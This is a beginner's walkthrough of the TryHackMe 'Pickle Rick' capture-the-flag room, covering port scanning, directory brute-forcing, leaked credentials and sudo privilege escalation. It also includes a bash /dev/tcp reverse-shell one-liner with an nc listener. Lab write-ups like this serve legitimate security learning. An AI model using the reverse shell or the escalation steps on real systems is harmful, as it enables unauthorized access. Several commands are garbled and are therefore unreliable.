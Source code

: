 # Pickle-Rick-Writeup-
A writeup for Pickle Rick CTF room in Tryhackme https://tryhackme.com/room/picklerick. This is my first ever writeup, critics and suggestions are very welcome

# Scanning the target

For the first step in this excercise let's scan the machine to find
ports that is open using nmap. The options that i used for nmap are:

```
nmap -A -sV -oA nmap_result 10.10.205.
```
Breakdown of each of this options:
-A : extensive scan on the machine
-sV : enable version detection of each of the ports
-oA : enable the output to be saved locally with the name "nmap_result"


Based on the output of nmap, now we know that there are two ports
that we can access, port 22 and port 80, that is ssh and webserver
respectively. Okay now that we have the ports, what should we do?.
Well since we didn't have any credentials to access the ssh, let's
start with the webserver first.

# First Ingridient

## The webserver


Not alot to see or do in this page, but we can try to see its source
code if there's anything we can find

It looks like we found a username commented in the HTML code. If
there's a username then that means there's login page somewhere
in this server. Lets try to brute force the directory to find the login
page and other pages hidden in this server


## Finding directory using Dirsearch

For this excercise i use a tool called “dirsearch” in order to find
these directories. If you are more comfortable with other tools such
as. Gobuster, dirbuster and the likes, i'd say go for it.

The options that i used for dirsearch is:

```
dirsearch -u 10.10.9.36 -e php,html,js
```
A breakdown of this command is:
-u : is the url of the target
-e : will search for the desired extensions

It looks like there is a login page and a few other pages within this
server. Let's first take a look at the robots.txt page to see if there's
any other page hidden within the server that we might miss.


Nope, it looks like one of rick's personal catchphrase that he always
said in the series. But it might mean something, so lets hold on to it.
Next let's try the assets page to find any other hidden file or
information that we can use later on.

Nothing of the sorts, all of the files is just an image file and a couple
of css to use for the page. Clicking the parent directory leads us
back to the main page.

## Logging in to Rick's dashboard

After a bit of tour, let's access the login page.


We know the username is “R1ckRul3s” based on what we found in
the main page's source code, lets try to input “Wubbalubbadubdub”
that we found in the robots.txt as the password.

correct, now we can look around Rick's dashboard to find the
required ingridients to turn him back. Before moving to other pages
to see what's up, let's input a command “ls -al” to see if there's any


peculiar file here.

and it looks like there is, and what appears to be one of the
ingridient that we need. By replacing the “portal.php” in the url with
the file name, and we get the first ingridient.

# Second Ingridient

## Knowing the current location of the system

Before we start searching for the second ingridient. First thing is to
know where is our current location in the system, since we already
know that the command panel executes linux command, we can
input 'pwd' to know the current directory.

When execute.


Now we know where we are in the system. Since we're in /var, lets
look at /home directory to see what's in it using “ls” command:

```
ls/ home /
```
There are two directory in home, one is for rick and the other is
ubuntu. let's first search rick directory to see if he's putting the
other ingridients there, the command is "ls -la" to list all the files
that may be hidden to us.

```
ls -al \home\rick
```

There it is, the file containing the second ingridient. Let's use “cat”
to look at the file.

```
cat "/home/rick/second ingredients"
```
nope, looks like the “cat” command is disabled here, how about if
we use ‘less’ to see?.

```
less "/home/rick/second ingredients"
```

There we go.

Disclaimer: i didn't think of using this command when first time
solving this room, instead I use reverse shell.

# Third Ingredient

## Accessing the root

Now that we have the first and the second ingredient, to get the last
we will have to exploit the flaw of this system since we can't access
the root directory with our current privilege. To exploit, first we need
to list all the command the current user are allowed to run, to do
this, execute this command:

```
sudo -l
```

Based on this output, it means that we are able to freely execute
any command with the highest privileged without the system
prompting us for password, this means we know the way to access
the root directory. Let's list all the files in root with ‘ls’ command:

```
sudols/ root
```
now that we know the name of the file, open it with:

```
sudoless/ root / 3rd.txt
```

Congratuations. Rick is back into human again.

# Alternate Method

## Open up reverse shell

Instead of executing the command inside the webserver, we can
open up a reverse shell by executing this command in the panel:

```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
Changing the RHOST with our own ip address and the RPORT with
whatever port we desire in our local computer. This will make the
server send a connection to us, what we'll do next is setting up our
computer to get that connection by executing this command in our
local console:

```
sudo nc -lvnp $RPORT
```
Change the RPORT with the same port number that we set for the
server. Breakdown of this command:


- sudo: nc needs to open up a port in the computer, for that it needs
the privilege of the user.
- lvnp: is a combination of option -l to listen for incoming connection,
-n to not perform domain name resolution, -v for verbose output,
and lastly -p to tell what port should nc listen to.

After executing the command, our console will look like this.

We can input whatever command that we execute in the server, and
we can use “cat” command this way, however. The connection at
the current state is considered fragile and will disconnect if we press
ctrl+c. There is a way to stabilize the connection using method from
others, but in my case. I can't seem to do it due to nc always hangs
on me afterwards, it probably an error on my part.



